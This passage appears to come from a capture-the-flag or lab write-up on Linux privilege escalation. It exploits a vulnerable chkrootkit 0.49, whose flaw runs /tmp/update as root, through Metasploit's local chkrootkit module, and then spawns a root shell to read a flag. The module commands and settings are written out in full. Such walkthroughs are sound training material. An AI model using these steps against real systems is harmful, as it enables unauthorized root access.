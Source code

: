 ![cat /bin/check-down](.gitbook/assets/image-20230422133438780.png)

> 📌 The `/usr/local/bin/chkrootkit/chkrootkit` binary is executed every 60 seconds.
>
> - [**`chkrootkit`**](https://www.chkrootkit.org/) - locally checks for signs of a rootkit
>
> Chkrootkit < 0.50 is vulnerable to [local privilege escalation vulnerability](https://www.exploit-db.com/exploits/33899)

- Check `chkrootkit` version

```bash
chkrootkit -V
	chkrootkit version 0.49
```

- Background both the shell and the meterpreter session with `CTRL+Z`

### Privilege Escalation

- The technique will depend on the version of the target Linux Kernel and the distribution version.
  - It is necessary to manually enumerate a privesc vulnerable program, `Chkrootkit v.0.49` in this case 

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
info
# Description:
#   Chkrootkit before 0.50 will run any executable file named 
#   /tmp/update as root, allowing a trivial privilege escalation. 
#   WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
#   scheduled by default.
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.15.244.2
sessions # check the used ports
run
```

![exploit/unix/local/chkrootkit](.gitbook/assets/image-20230422134736591.png)

```bash
/bin/bash -i
ls
cat flag
```



<details><summary>Reveal Flag: 🚩</summary></details>



------

## Lab 3 - Dumping Hashes
